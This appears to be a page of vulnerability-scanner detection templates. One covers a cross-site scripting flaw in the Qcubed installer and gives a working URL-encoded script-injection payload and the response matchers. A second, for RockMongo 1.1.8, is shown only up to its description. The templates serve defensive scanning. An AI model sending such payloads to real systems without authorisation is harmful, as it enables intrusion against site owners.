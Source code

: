 
# Qcubed - Cross-Site Scripting

## Description

- Qcubed contains a cross-site scripting vulnerability which allows a remote attacker to inject arbitrary JavaScript via the /assets/php/\_devtools/installer/step_2.php endpoint and the installation_path parameter.
- severity - high
- tags - xss,qcubed

## Requests

- Method - GET

### URL

- {{BaseURL}}/assets/php/\_devtools/installer/step_2.php?installation_path=%22%3E%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E
- {{BaseURL}}/qcubed/assets/php/\_devtools/installer/step_2.php?installation_path=%22%3E%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

### Matchers

**Type - word**

- words
  1. \</script>\<script>alert(document.domain)\</script>
- part - body

**Type - status**

- status
  1. 200

**Type - word**

- part - header
- words
  1. text/html

---

# RockMongo 1.1.8 - Cross-Site Scripting

## Description

- RockMongo 1.1.8 contains a cross-site scripting vulnerability which allows attackers to inject arbitrary JavaScript into the response returned by the application.
- severity - high
- tags - rockmongo,xss,packetstorm
